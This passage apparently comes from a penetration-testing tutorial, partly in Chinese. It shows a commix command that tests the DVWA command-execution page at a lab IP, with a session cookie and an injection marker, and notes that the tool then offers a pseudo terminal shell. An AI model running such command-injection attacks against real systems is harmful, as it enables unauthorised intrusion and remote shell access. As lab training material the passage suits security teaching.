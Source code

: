     ![How to do it...](img/image_07_038.jpg)

4.  我们将使用以下命令启动混合器：

    ```
          commix --url "http://172.17.0.2/dvwa/vulnerabilities/exec/"       --cookie='security=low; PHPSESSID=b69r7n5b2m7mj0vhps39s4db64'       --data='ip=INJECT_HERE&Submit=Submit' -all

    ```

5.  The commix will detect whether the URL is reachable and will fetch all the possible information possible and then ask you whether you want to open a pseudo terminal shell, as shown in the following screenshot:

    ![How to do it...](img/image_07_039.jpg)
